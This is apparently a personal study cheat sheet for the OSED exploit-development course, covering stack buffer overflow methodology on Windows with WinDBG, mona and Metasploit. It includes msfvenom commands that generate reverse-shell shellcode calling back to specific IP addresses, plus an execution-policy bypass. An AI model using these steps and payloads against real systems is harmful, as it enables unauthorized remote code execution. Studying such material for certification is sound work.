 # OSED

![image](https://github.com/user-attachments/assets/1964c089-4a89-457b-b370-cbed76354f11)

## Exploit Strategy

* If EIP controllable and DEP off: direct shellcode jump.
* If DEP on: plan ROP to call VirtualProtect/VirtualAlloc or find JIT/ret2libc equivalent.
* If ASLR present: find module without ASLR/rebase or use info leaks.
  
## Methodology

1. Crash the application
2. Controlling EIP
3. Locating space for BOF (350–400 bytes) (`dds esp+2c0 L4`)
    1. Increase buffer length (ex.: 800 -> 1500)
4. Checking bad chars
    1. `!py \\tsclient\local-share\srbx7_bads.py --generate -b 00`
    2. `!py \\tsclient\local-share\srbx7_bads.py --address esp --bad 00 --start 01 --end 7f`
       1. Debug: `Debug: `db esp-8 L100`
6. Redirecting execution flow
    1.  `!py mona jmp -r esp -cpb '\x00'`: if lot of space (ex.: `inputBuffer += pack("<I",0x00418674) #00418674`)
7. Generating shellcode
    1. Basic encoded:
       `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.181 LPORT=443 -f python –e x86/shikata_ga_nai -b "\x00"`
    3. Avoid crashing:
       `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f python –e x86/shikata_ga_nai -b "\x00\x0a"`
9. Getting the shellcode
10. Improving the exploit (not to crash the application)
    1. If multi-threaded application, add to msf-venom `EXITFUNC=thread`

## Links

* https://github.com/sebastian93921/OSED-Code-Snippets scripts for exploit phase
* https://github.com/bugzzzhunter/OSEDscripts/ windbg python automation
* https://github.com/epi052/osed-scripts?tab=readme-ov-file#install-monash install mona

> Automatically attach to process (ex.: `PROCESS_NAME` = `syncbrs`)

* `Set-ExecutionPolicy Bypass -Scope Process -Force`
* `while ($true) {\\tsclient\local-share\attach-process.ps1 -process-name syncbrs -commands '.load pykd.pyd; g;'}`
* `while ($true) {\\tsclient\local-share\attach-process.ps1 -path .\VulnApp1.exe -process-name VulnApp1 -commands '.load pykd.pyd; g;'}`

## WinDBG

Commands: https://learn.microsoft.com/en-us/windows-hardware/drivers/debuggercmds/commands

Basics:

* `g` : go (resumes execution after attaching)
* `bp <0xaddress>` : set breakpoint
* `t` : single step after bp
* `? <0xstart> - <0xend>` : check bytes between addresses
* `dd esp` : display dword esp
* `dc esp` : display char esp
* `dw esp L4` : display word esp + length 4
* `dt ntdll!_TEB` : display type of TEB aka dumping struct
*  `u <0xstart>` : unasm an address

Mona: 
* `.load pykd.pyd`: load pykd
* `!py mona modules`: list modules
* `!py mona config -set workingfolder "c:\%p"`: set workingfolder
* `!py mona bytearray -b "\x00\x0a"`: generate a list of bad chars
  * `C:\Program Files\Windows Kits\10\Debuggers\bytearray.bin`: list location
  * `!py mona compare -f C:\Program Files\Windows Kits\10\Debuggers\bytearray.bin -a esp`: compare list with the stack starting at ESP
* `!py mona jmp -r esp -cpb '\x00'`: if lot of space (ex.: `inputBuffer += pack("<I",0x00418674) #00418674`)

  
Reverse:

* `0x10090c83` -> `\x83\x0c\x09\x10` : (un)converting hex to python for LE (AMD64 and x86)
* `dds esp+2c0 L4` : check if 0x2c0 bytes fit on the stack
* `db esp - 10 L20` : check bad chars
* `lm m libssp` : list loaded modules that match "libssp" (`u <0xstart>` : unasm an address)
* `s -b <0xstart> <0xend> 0xff 0xe4` : search bytes FFE4 aka JMP ESP in memory (__Make sure no bad chars in addresses return__)

## MSF

* `msf-pattern_create -l 800`
* `msf-pattern_offset -l 800 -q 41424344`
* `msf-nasm_shell`
```
nasm > jmp esp
00000000  FFE4              jmp esp
```
